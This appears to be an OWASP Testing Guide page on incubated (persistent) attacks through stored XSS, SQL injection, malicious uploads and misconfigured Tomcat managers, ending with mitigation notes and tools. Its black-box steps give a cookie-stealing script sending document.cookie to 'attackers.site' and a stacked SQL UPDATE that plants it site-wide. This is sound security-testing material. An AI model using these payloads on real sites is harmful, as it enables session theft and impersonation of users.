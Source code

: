 ============================================================================================
OTG-INPVAL-015 (Incubated 취약점 침투 테스트)
============================================================================================

|

개요
============================================================================================

Also often refered to as persistent attacks, incubated testing is a
complex testing method that needs more than one data validation
vulnerability to work. Incubated vulnerabilities are typically
used to conduct “watering hole” attacks against users of legitimate
web applications.
Incubated vulnerabilities have the following characteristics:
• The attack vector needs to be persisted in the first place, it
needs to be stored in the persistence layer, and this would only
occur if weak data validation was present or the data arrived
into the system via another channel such as an admin console
or directly via a backend batch process.
• Secondly, once the attack vector was “recalled” the vector
would need to be executed successfully. For example, an
incubated XSS attack would require weak output validation so
the script would be delivered to the client in its executable form.
Exploitation of some vulnerabilities, or even functional features
of a web application, will allow an attacker to plant a piece of data
that will later be retrieved by an unsuspecting user or other component
of the system, exploiting some vulnerability there.

In a penetration test, incubated attacks can be used to assess
the criticality of certain bugs, using the particular security issue
found to build a client-side based attack that usually will be used
to target a large number of victims at the same time (i.e. all users
browsing the site).
This type of asynchronous attack covers a great spectrum of attack
vectors, among them the following:
• File upload components in a web application, allowing the
attacker to upload corrupted media files (jpg images exploiting
CVE-2004-0200, png images exploiting CVE-2004-0597,
executable files, site pages with active component, etc.)
• Cross-site scripting issues in public forums posts (see Testing
for Stored Cross_site scripting (OTG-INPVAL-002) for additional
details). An attacker could potentially store malicious scripts
or code in a repository in the backend of the web-application
(e.g., a database) so that this script/code gets executed by one
of the users (end users, administrators, etc). The archetypical
incubated attack is exemplified by using a cross-site scripting
vulnerability in a user forum, bulletin board, or blog in order to
inject some JavaScript code at the vulnerable page, and will be
eventually rendered and executed at the site user’s browser
-using the trust level of the original (vulnerable) site at the user’s
browser.
• SQL/XPATH Injection allowing the attacker to upload content to a
database, which will be later retrieved as part of the active content
in a web page. For example, if the attacker can post arbitrary
JavaScript in a bulletin board so that it gets executed by users, then
he might take control of their browsers (e.g., XSS-proxy).
• Misconfigured servers allowing installation of Java packages or
similar web site components (i.e. Tomcat, or web hosting consoles
such as Plesk, CPanel, Helm, etc.)

|

테스트 방법
============================================================================================

|

Black Box testing
-----------------------------------------------------------------------------------------

**File Upload Example**

Verify the content type allowed to upload to the web application and
the resultant URL for the uploaded file. Upload a file that will exploit
a component in the local user workstation when viewed or downloaded
by the user. Send your victim an email or other kind of alert in
order to lead him/her to browse the page. The expected result is the
exploit will be triggered when the user browses the resultant page
or downloads and executes the file from the trusted site.
XSS Example on a Bulletin Board
[1] Introduce JavaScript code as the value for the vulnerable field,
for instance:

<script>document.write(‘<img src=”http://attackers.site/cv.jpg?’+document.cookie+’”>’)</script>

[2] Direct users to browse the vulnerable page or wait for the users
to browse it. Have a “listener” at attackers.site host listening
for all incoming connections.
[3] When users browse the vulnerable page, a request containing 
their cookie (document.cookie is included as part of the requested
URL) will be sent to the attackers.site host, such as the following:

.. code-block:: html

    - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
    %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;
    TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1

[4] Use cookies obtained to impersonate users at the vulnerable site.

|

**SQL Injection Example**

Usually, this set of examples leverages XSS attacks by exploiting
a SQL-injection vulnerability. The first thing to test is whether
the target site has a SQL injection vulnerability. This is described
in Section 4.2 Testing for SQL Injection. For each SQL-injection
vulnerability, there is an underlying set of constraints describing
the kind of queries that the attacker/pen-tester is allowed to do.
The tester then has to match the XSS attacks he has devised
with the entries that he is allowed to insert.
[1] In a similar fashion as in the previous XSS example, use a web
page field vulnerable to SQL injection issues to change a value in
the database that would be used by the application as input to be
shown at the site without proper filtering (this would be a combination
of an SQL injection and a XSS issue). For instance, let’s
suppose there is a footer table at the database with all footers
for the web site pages, including a notice field with the legal notice
that appears at the bottom of each web page. You could use
the following query to inject JavaScript code to the notice field at
the footer table in the database.

.. code-block:: html

    SELECT field1, field2, field3
    FROM table_x
    WHERE field2 = ‘x’;
    UPDATE footer
    SET notice = ‘Copyright 1999-2030%20
    
    <script>document.write(\'<img src="http://attackers.site/
    cv.jpg?\'+document.cookie+\'">\')</script>'
    WHERE notice = 'Copyright 1999-2030';

[2] Now, each user browsing the site will silently send his cookies
to the attackers.site (steps b.2 to b.4).

Misconfigured Server

Some web servers present an administration interface that may
allow an attacker to upload active components of her choice to
the site. This could be the case with an Apache Tomcat server
that doesn’t enforce strong credentials to access its Web Application
Manager (or if the pen testers have been able to obtain
valid credentials for the administration module by other means).
In this case, a WAR file can be uploaded and a new web application
deployed at the site, which will not only allow the pen tester
to execute code of her choice locally at the server, but also to
plant an application at the trusted site, which the site regular us
ers can then access (most probably with a higher degree of trust
than when accessing a different site).
As should also be obvious, the ability to change web page contents
at the server, via any vulnerabilities that may be exploitable
at the host which will give the attacker webroot write permissions,
will also be useful towards planting such an incubated
attack on the web server pages (actually, this is a known infection-spread
method for some web server worms).

|

Gray Box testing
--------------------------------------------------------------------------------

Gray/white testing techniques will be the same as previously
discussed.

- Examining input validation is key in mitigating against this
vulnerability. If other systems in the enterprise use the same
persistence layer they may have weak input validation and the
data may be persisited via a “back door”.
- To combat the “back door” issue for client side attacks, output
validation must also be employed so tainted data shall be
encoded prior to displaying to the client, and hence not execute.
- See the Data Validation section of the Code review guide.

|

Tools
======================================================================================

- XSS-proxy - http://sourceforge.net/projects/xss-proxy
- Paros - http://www.parosproxy.org/index.shtml
- Burp Suite - http://portswigger.net/burp/proxy.html
- Metasploit - http://www.metasploit.com/

|

References
======================================================================================

Most of the references from the Cross-site scripting section are
valid. As explained above, incubated attacks are executed when
combining exploits such as XSS or SQL-injection attacks.

Advisories
--------------------------------------------------------------------------------------

- CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests: http://www.cert.org/advisories/CA-2000-02.html
- Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability: http://lists.grok.org.uk/pipermail/fulldisclosure/2006-July/048059.html

Whitepapers
--------------------------------------------------------------------------------------

- Web Application Security Consortium "Threat Classification, Cross-site scripting": http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml




